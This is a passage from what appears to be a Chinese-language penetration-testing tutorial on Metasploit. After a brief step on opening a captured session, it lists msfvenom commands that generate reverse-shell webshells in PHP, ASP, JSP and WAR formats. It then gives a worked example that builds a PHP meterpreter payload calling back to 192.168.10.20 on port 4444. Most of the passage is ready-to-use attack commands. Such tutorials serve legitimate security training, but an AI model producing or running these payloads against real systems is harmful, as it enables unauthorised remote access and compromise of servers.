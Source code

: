 #### 5.5.2.6.**利用payload**

这里可以使用sessions -i 1进行利用，这里的1是序号，可以通过上线的payload的序号进行利用。

![img](assets/wps35-1690339599842-35.jpg) 

## 5.6.**webshell脚本**

### 5.6.1.**生成webshell脚本**

PHP：

msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

ASP：

msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

JSP：

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

WAR：

msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

### 5.6.2.**利用方式**

#### 5.6.2.1.**生成payload文件**

这里就针对PHP为例，使用上述的命令生成一个PHP的payload文件。同时这里生成的文件就在根目录下。

命令：msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.10.20 LPORT=4444 -f raw > shell.php

![img](assets/wps36-1690339599842-36.jpg) 
